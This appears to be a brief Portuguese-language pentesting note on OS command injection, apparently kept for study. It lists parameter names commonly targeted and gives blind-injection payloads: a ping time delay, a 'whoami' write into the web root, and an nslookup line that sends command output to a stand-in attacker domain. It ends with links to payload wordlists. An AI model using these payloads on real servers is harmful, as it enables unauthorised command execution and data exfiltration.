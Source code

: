 #web #api #vuln

**Shell injection** ou **command injection** permite o hacker enviar comandos de sistema no servidor que está rodando a aplicação.

O comum deste ataque é injetar payloads em parâmetros:

```
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```

## Blind CI

Algumas aplicações não te da retorno do ataque realizado, mas ainda podem ser exploradas. 

### Time relays

Uma das formas de explorar isso é através de *time delays*.

Você pode enviar comandos com atraso de tempo com o `ping` pois é possível especificar o número de pacotes ICMP que vão ser enviados.

```sh
& ping -c 10 127.0.0.1 &
```

### Redirecionar output

Outro teste é redirecionar o output para o caminho raiz da aplicação web. Por exemplo, deduzindo que a aplicação está rodando em `/var/www/html:

```sh
& whoami > /var/www/html/whoami.txt &
```

### Técnicas out-of-band

Vocẽ pode enviar comandos que realizem uma interação de rede fora de banda e monitorar isso:

```bash
& nslookup kgji2ohoyw.web-attacker.com &
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Payloads

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection/Intruder

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt

## Referências

https://portswigger.net/web-security/os-command-injection
https://book.hacktricks.xyz/pentesting-web/command-injection